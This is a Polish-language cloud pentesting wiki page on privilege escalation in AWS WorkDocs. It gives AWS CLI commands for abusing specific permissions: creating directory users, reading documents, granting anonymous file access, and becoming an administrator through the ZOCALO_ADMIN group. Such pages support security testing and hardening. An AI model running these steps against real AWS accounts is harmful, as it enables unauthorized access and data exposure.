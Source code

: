 # AWS - WorkDocs Privesc

## WorkDocs

Aby uzyskać więcej informacji na temat WorkDocs, sprawdź:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Utwórz użytkownika wskazanym katalogu, a następnie uzyskasz dostęp zarówno do WorkDocs, jak i AD:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Pliki mogą zawierać poufne informacje, odczytaj je:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Jeśli nie masz dostępu do odczytu czegoś, możesz po prostu go udzielić.

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Możesz uczynić użytkownika administratorem, ustawiając go w grupie ZOCALO\_ADMIN.\
Aby to zrobić, postępuj zgodnie z instrukcjami z [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Zaloguj się tym użytkownikiem w workdoc i uzyskaj dostęp do panelu administracyjnego w `/workdocs/index.html#/admin`

Nie znalazłem żadnego sposobu, aby to zrobić za pomocą wiersza poleceń (CLI).
